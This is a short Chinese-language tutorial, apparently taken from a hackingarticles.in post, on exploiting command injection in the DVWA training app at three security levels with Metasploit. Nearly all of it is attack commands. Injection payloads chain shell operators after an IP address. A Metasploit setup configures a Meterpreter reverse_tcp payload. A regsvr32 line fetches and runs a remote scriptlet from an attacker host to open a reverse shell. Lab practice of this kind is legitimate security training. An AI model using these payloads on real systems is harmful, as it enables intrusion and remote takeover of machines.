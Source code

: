 ## 使用Metasploit在DVWA中进行命令注入开发（绕过所有安全性）

### Low

`192.168.1.1 && pwd`

`192.168.1.1 && ls`

```bash
msf > use exploit/windows/misc/regsvr32_applocker_bypass_server
msf exploit(regsvr32_applocker_bypass_server) > set payload windows/meterpreter/reverse_tcp
msf exploit(regsvr32_applocker_bypass_server) > set lhost 192.168.1.106
msf exploit(regsvr32_applocker_bypass_server) > set lport  4444
msf exploit(regsvr32_applocker_bypass_server) > exploit
```

`192.168.1.100 && regsvr32 /s /n /u /i://192.168.1.103:8080/C99PdFH.sct scrobj.dll` [^1]

### Medium

`192.168.1.100 | regsvr32 /s /n /u /i://192.168.1.103:8080/C99PdFH.sct scrobj.dll`

### High

`192.168.1.100 || regsvr32 /s /n /u /i://192.168.1.103:8080/C99PdFH.sct scrobj.dll`

[原文](https://www.hackingarticles.in/command-injection-exploitation-dvwa-using-metasploit-bypass-security/)

---

[^1]: 使用这个命令打开远程主机上的端口，并使用metasploit连接回端口。